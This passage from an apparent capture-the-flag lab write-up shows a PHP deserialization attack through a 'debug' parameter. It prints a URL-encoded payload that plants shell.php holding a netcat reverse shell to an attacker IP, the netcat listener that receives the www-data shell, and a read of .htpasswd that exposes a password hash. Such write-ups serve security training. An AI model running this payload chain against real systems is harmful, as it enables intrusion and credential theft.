 I ran the code that printed the serialized and URL encoded object.

```bash
$ php test.php
O%3A10%3A%22FormSubmit%22%3A2%3A%7Bs%3A9%3A%22form_file%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A7%3A%22message%22%3Bs%3A112%3A%22%0A%3C%3Fphp%0A%60mkfifo+%2Ftmp%2Fkirxhbg%3B+nc+10.13.3.36+4444+0%3C%2Ftmp%2Fkirxhbg+%7C+%2Fbin%2Fsh+%3E%2Ftmp%2Fkirxhbg+2%3E%261%3B+rm+%2Ftmp%2Fkirxhbg%60%3B%0A%09%22%3B%7D

```

Then I opened the index file passing it my serialized object in the debug parameter:
```
http://target.thm/index.php?name=test&email=test&comments=test&select=1&checkbox=1&debug=O%3A10%3A%22FormSubmit%22%3A2%3A%7Bs%3A9%3A%22form_file%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A7%3A%22message%22%3Bs%3A112%3A%22%0A%3C%3Fphp%0A%60mkfifo+%2Ftmp%2Fkirxhbg%3B+nc+10.13.3.36+4444+0%3C%2Ftmp%2Fkirxhbg+%7C+%2Fbin%2Fsh+%3E%2Ftmp%2Fkirxhbg+2%3E%261%3B+rm+%2Ftmp%2Fkirxhbg%60%3B%0A%09%22%3B%7D
```

I then started a netcat listener and accessed my new [shell.php](http://target.thm/shell.php)

```bash
$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.113.129 38328

whoami
www-data
```

## James Password

Once connected, I started looking around the server. I missed it at first, but there was a .htpasswd file in the web root.

```bash
www-data@osboxes:/$ ls -la /var/www/html/
total 72
drwxr-xr-x 6 www-data www-data  4096 Jun 27 18:15 .
drwxr-xr-x 3 root     root      4096 Mar  9 19:56 ..
-rw-r--r-- 1 www-data www-data    44 Mar  9 20:09 .htpasswd
drwxr-xr-x 5 www-data www-data  4096 Mar  9 20:10 backup
drwxr-xr-x 2 www-data www-data  4096 Mar  9 20:10 grid
-rw-r--r-- 1 www-data www-data 11321 Mar  9 20:10 index.html
-rw-r--r-- 1 www-data www-data  6399 Mar  9 20:10 index.php
drwxr-xr-x 2 www-data www-data  4096 Mar  9 20:10 javascripts
drwxr-xr-x 2 www-data www-data  4096 Mar  9 20:10 less
-rw-r--r-- 1 www-data www-data   494 Jun 27 18:15 message.txt
-rw-r--r-- 1 www-data www-data  2339 Mar  9 20:10 readme.md
-rw-r--r-- 1 www-data www-data   112 Jun 27 18:15 shell.php
-rw-r--r-- 1 www-data www-data 10371 Mar  9 20:10 style.css

www-data@osboxes:/$ cat /var/www/html/.htpasswd
james:$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1
```
